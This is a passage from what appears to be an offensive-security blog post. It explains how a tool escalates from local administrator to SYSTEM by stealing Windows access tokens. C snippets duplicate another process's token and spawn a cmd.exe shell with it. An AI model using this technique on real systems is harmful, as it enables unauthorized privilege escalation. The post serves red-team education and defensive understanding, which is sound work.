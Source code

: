 By specifying the type in the `TokenType` parameter we can effectively freely convert between both types.

The first (ab)use case I want to cover is to escalate from local admin to `SYSTEM` by stealing access tokens.

### Stealing SYSTEM access tokens

A privileged account can copy access tokens from any existing process. This stolen token can then be either applied to an existing process or be used to spawn a new process, e.g. by using [`CreateProcessWithToken`](). This is all we need to do to get a `SYSTEM` shell.

In my tool, this is implemented with the `token.cmd` command.

First, all token handles are listed (which is done under the hood by using `NtQuerySystemInformation` to query all handles and checking if they are token handles). See [here for the code](https://github.com/eversinc33/godmode/blob/main/token.h#L304), as it is a bit too much to show here.

![](/tl.png)

When the user selects a token, a series of api calls copies the token from the selected process:

```c
/* Error handling is ommited in all code snippets for the sake of brevity*/

// open handle to process
HANDLE process = OpenProcess(PROCESS_DUP_HANDLE, FALSE, processId);

// duplicate the handle, where handleInfo.HandleValue is the token handle
HANDLE dupHandle;
DuplicateHandle(process, (HANDLE)handleInfo.HandleValue, GetCurrentProcess(), &dupHandle, 0, FALSE, DUPLICATE_SAME_ACCESS)

// duplicate the token, need to specify either TokenImpersonation or TokenPrimary as the fifth argument
// the type can be enumerated with GetTokenInformation,
// see: https://github.com/eversinc33/godmode/blob/main/token.h#L250
DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenImpersonation, &pNewToken)
```
Finally, a new `cmd` process is spawned with this token as its primary token, using the `CreateProcessWithTokenW` API. Note that this part requires an enabled `SeImpersonatePrivilege`:

```c
STARTUPINFO si;
PROCESS_INFORMATION pi;
CreateProcessWithTokenW(pNewToken, LOGON_NETCREDENTIALS_ONLY, L"C:\\Windows\\system32\\cmd.exe", NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi)
```
